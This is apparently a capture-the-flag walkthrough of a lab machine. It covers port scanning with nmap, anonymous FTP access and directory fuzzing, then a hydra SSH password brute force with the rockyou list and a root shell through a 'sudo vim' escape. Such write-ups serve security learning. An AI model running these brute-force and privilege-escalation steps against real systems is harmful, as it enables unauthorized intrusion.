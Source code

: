 ![image](https://github.com/user-attachments/assets/8136e17b-e899-4a64-9bba-715e2cfa250d)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p21,22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250122141033](https://github.com/user-attachments/assets/92db60ea-95b0-4044-acf1-8f3dd1fbe5a2)

## **we can also see that the user 'anonymous' is activated by ftp**

## **we can log in**
```bash
ftp 172.17.0.2
```
![Pasted image 20250122141248](https://github.com/user-attachments/assets/ed0d05d8-a940-4ab0-a0eb-81c4fc30b275)

## **as we can see we are inside a directory where there are only 2 files and we cannot move to another location.**

![Pasted image 20250122141716](https://github.com/user-attachments/assets/8de3cf51-9c65-484b-af5a-8bbd66b1110a)
![Pasted image 20250122141810](https://github.com/user-attachments/assets/ea0c2d81-ff38-4250-b097-66926c2b2888)
![Pasted image 20250122141848](https://github.com/user-attachments/assets/26e897c9-6742-40e5-aec9-c531d42d20b7)

## **from this we can assume that we have two users 'Gonza' and 'russoski'**

## **let's continue investigating other resources since we have users but no passwords.**

![Pasted image 20250122142008](https://github.com/user-attachments/assets/5e6007d7-b9e5-4db8-8d4b-3d700b466cf9)

## **in the source code we found something interesting**

![Pasted image 20250122142050](https://github.com/user-attachments/assets/4d4520b7-265a-4f66-b337-f9baf0e7a9a6)

## **we continue to see russoski user mentioned**

![Pasted image 20250122142125](https://github.com/user-attachments/assets/72159de8-0833-4592-97b1-858413ed2df9)

## **we now fuzzing to find hidden directories**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```
![Pasted image 20250122142329](https://github.com/user-attachments/assets/db66471e-0ae6-4e71-8a0f-9dbec112e418)
![Pasted image 20250122142351](https://github.com/user-attachments/assets/8cbe125b-2029-40b8-a394-dc2aa59673d3)
![Pasted image 20250122142410](https://github.com/user-attachments/assets/a178d0c7-552c-44e2-a8e8-dee6bb39601a)

##**now if we are sure of the user with which we will get access, we are going to make a brute force attack and this time through the SSH protocol.**
```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```
![Pasted image 20250122142557](https://github.com/user-attachments/assets/d424ed37-6942-46b8-85f2-0c90ce1e6836)

```bash
ssh russoski@172.17.0.2
```
```bash
sudo -l
```
![Pasted image 20250122142707](https://github.com/user-attachments/assets/38fa7853-eb1b-4f3d-9a70-8e08da5435d6)

```bash
sudo vim -c ':!/bin/sh'
```
![Pasted image 20250122142807](https://github.com/user-attachments/assets/07b7c11d-68ac-467a-94bb-5844aeca5ecf)
